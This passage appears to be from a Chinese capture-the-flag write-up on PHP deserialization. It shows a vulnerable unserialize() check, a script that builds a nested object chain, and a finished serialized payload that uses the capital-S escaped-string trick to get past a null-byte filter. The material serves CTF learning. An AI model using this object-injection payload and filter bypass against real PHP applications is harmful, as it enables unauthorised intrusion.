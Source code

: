 ```php
if($pass!=null&&!preg_match("/\x{00}/i",$pass))
{
    unserialize($pass);
}
?> 
```

我们重点关注一些php的魔术方法:`__construct()`  `__destruct()` `__toString()` `__call($a,$b)`

就这些了,不算多~具体触发手法你去搜一下,反序列化漏洞还是很重要的!

ok,开始代码审计

我们触发的顺序就是:3<---1<---2<---4,反着推就行

```php
<?php 
//3<---1<---2<---4
class rank3{
    private $admin = 'aaa';
    protected $passwd = '123456';
	public function __construct(){
		$this->admin ='r3a';
		$this->passwd = 'r3b';
	}

}

class rank1{
	public $r1a;
    public $r1b;
	public function __construct(){
        $this->r1a=new rank3();
        $this->r1b='Getflag';
    }

}

class rank2{
	public $r2a;
	public function __construct(){
		$this->r2a = new rank1();
	}
}
class rank4{
	public $r4a;
	public function __construct(){
        $this->r4a=new rank2();
    }
}

//3<---1<---2<---4
$a=new rank4();
echo serialize( $a )."\n";
echo urlencode(serialize($a));

// %00如何绕过???
//https://wiki.wgpsec.org/knowledge/ctf/php-serialize.html

// /00->%00
// O:5:"rank4":1:{s:3:"r4a";O:5:"rank2":1:{s:3:"r2a";O:5:"rank1":2:{s:3:"r1a";O:5:"rank3":2:{S:12:"\00rank3\00admin";s:3:"r3a";S:9:"\00*\00passwd";s:3:"r3b";}s:3:"r1b";s:7:"Getflag";}}}
// https://xz.aliyun.com/t/6454?time__1311=n4%2BxnD0DRDB73RDfx05%2BbDyimC0QQDg7iABoD&alichlgref=https%3A%2F%2Fwww.google.com%2F
```

